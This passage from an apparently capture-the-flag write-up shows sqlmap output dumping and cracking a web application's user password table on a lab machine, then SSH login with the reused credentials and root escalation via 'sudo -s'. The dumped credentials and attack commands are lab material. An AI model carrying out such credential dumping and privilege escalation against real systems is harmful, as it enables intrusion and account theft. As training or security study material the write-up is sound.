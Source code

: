 [12:15:42] [INFO] cracked password 'pacman' for user 'sorzek'                                                                                                                         
[12:15:42] [INFO] cracked password 'undone1' for user 'ghighland'                                                                                                                     
[12:15:43] [INFO] cracked password 'seventysixers' for user 'achen'                                                                                                                   
[12:15:44] [INFO] postprocessing table dump                                                                                                                                           
Database: ehks
Table: user
[6 entries]
+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | 64d1f88b9b276aece4b0edcc25b7a434 (pacman)        |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+

[12:15:44] [WARNING] table 'ehks.`user`' dumped to CSV file '/root/.sqlmap/output/192.168.30.147/dump/ehks/user-f3649c95.csv'
[12:15:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.30.147'

{% endhighlight %}

## SSH Login

All the dumped accounts appeared to have matching SSH accounts sharing the same credentials as the vulnerable web application.

## Linux Local Privilege Escalation  

The account <code>achen</code> was a memeber of the sudo group.

The command <code>sudo -s</code> was executed, successfully escalating privileges to super user.

{% highlight bash %}

[achen@ctf4 ~]$ sudo -s
[root@ctf4 ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
[root@ctf4 ~]# cat /root/
{% endhighlight %}

## Post Exploitation Enumeration

There appears to be no root flag, for this capture the flag challenge.
